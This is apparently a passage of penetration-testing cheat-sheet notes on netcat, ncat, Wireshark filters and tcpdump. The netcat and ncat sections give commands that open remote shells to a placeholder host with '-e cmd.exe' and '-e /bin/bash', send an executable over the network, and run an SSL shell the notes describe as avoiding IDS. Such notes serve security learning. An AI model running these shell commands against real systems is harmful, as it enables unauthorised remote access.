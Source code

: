     -   Collect all the IP Addresses from a log file and sort by
        frequency  
        `cat access.log | cut -d " " -f 1 | sort | uniq -c | sort -urn`

-   Netcat - Read and write TCP and UDP Packets

    -   Connect to a POP3 mail server  
        `nc -nv $ip 110`

    -   Listen on TCP/UDP port  
        `nc -nlvp 4444`

    -   Connect to a netcat port  
        `nc -nv $ip 4444`

    -   Send a file using netcat  
        `nc -nv $ip 4444 &lt; /usr/share/windows-binaries/wget.exe`

    -   Receive a file using netcat  
        `nc -nlvp 4444 &gt; incoming.exe`

    -   Create a reverse shell with Ncat using cmd.exe on Windows  
        `nc -nlvp 4444 -e cmd.exe`

    -   Create a reverse shell with Ncat using bash on Linux  
        `nc -nv $ip 4444 -e /bin/bash`

-   Ncat - Netcat for Nmap project which provides more security avoid
    IDS

    -   Reverse shell from windows using cmd.exe using ssl  
        `ncat --exec cmd.exe --allow $ip -vnl 4444 --ssl`

    -   Listen on port 4444 using ssl  
        `ncat -v $ip 4444 --ssl`

-   Wireshark
    -   Show only SMTP (port 25) and ICMP traffic:
         `tcp.port eq 25 or icmp`
        
    -   Show only traffic in the LAN (192.168.x.x), between workstations and servers -- no Internet:
        `ip.src==192.168.0.0/16 and ip.dst==192.168.0.0/16`
        
    -   Filter by a protocol ( e.g. SIP ) and filter out unwanted IPs:
        `ip.src != xxx.xxx.xxx.xxx && ip.dst != xxx.xxx.xxx.xxx && sip`
        
    -   Some commands are equal
        `ip.addr == 10.43.54.65`
         Equals
        `ip.src == 10.43.54.65 or ip.dst == 10.43.54.65 `

        ` ip.addr != 10.43.54.65`
         Equals
         `ip.src != 10.43.54.65 or ip.dst != 10.43.54.65`

-   Tcpdump

    -   Display a pcap file  
       `tcpdump -r password\_cracking\_filtered.pcap`

